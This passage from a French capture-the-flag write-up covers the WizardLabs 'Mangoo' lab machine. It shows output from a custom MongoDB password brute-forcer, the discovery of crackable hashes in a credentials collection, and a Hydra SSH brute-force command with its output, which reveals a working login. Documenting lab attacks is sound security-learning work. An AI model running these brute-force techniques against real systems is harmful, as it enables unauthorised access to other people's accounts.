 Ici j'utilise 4 process en parallèle. Ce sera jamais à la hauteur du parallélisme de Go ou Rust mais ça fonctionne :  

```plain
$ python mongo_brute.py pass.txt
Lauching 4 cracking processes
Authentication succeed with password iloveyou
but got the following exception:
not authorized on admin to execute command { listDatabases: 1, nameOnly: true, lsid: { id: UUID("80546e04-19e8-440d-8458-6fd6efb7267e") }, $db: "admin", $readPreference: { mode: "primaryPreferred" } }

Process 1 is leaving (success)
Process 0 is leaving (no more tasks)
Process 3 is leaving (no more tasks)
Process 2 is leaving (no more tasks)
```

Maintenant que l'on dispose d'un accès au Mongo on peut aller voir les collections présentes (ici avec *Studio 3T*) :  

![WizardLabs Mangoo CTF credentials in mongodb passwords collection](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/mangoo_mongodb_credentials.png)

On trouve des hashs facilement cassables (une recherche Google suffit) dans la collection *credentials*. J'ai rajouté les plaintext en rouge.  

La collection *users* dispose de différentes entrées (*ben*, *lionel*, *chawki*). On place les users et les passwords dans des fichiers respectifs et on voit ce que le brute-force peut donner.  

```plain
$ hydra -L users.txt -P pass.txt -e nsr ssh://10.1.1.21
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 16:39:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 18 login tries (l:3/p:6), ~2 tries per task
[DATA] attacking ssh://10.1.1.21:22/
[22][ssh] host: 10.1.1.21   login: chawki   password: valentine
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 16:39:43
```

Lychee
------

Cet accès SSH nous permet d'obtenir le premier flag. On est sur une distrib *Ubuntu 18.04 LTS Bionic Beaver* avec le kernel suivant :  

```plain
Linux mangoo 4.15.0-30-generic #32-Ubuntu SMP Thu Jul 26 17:42:43 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
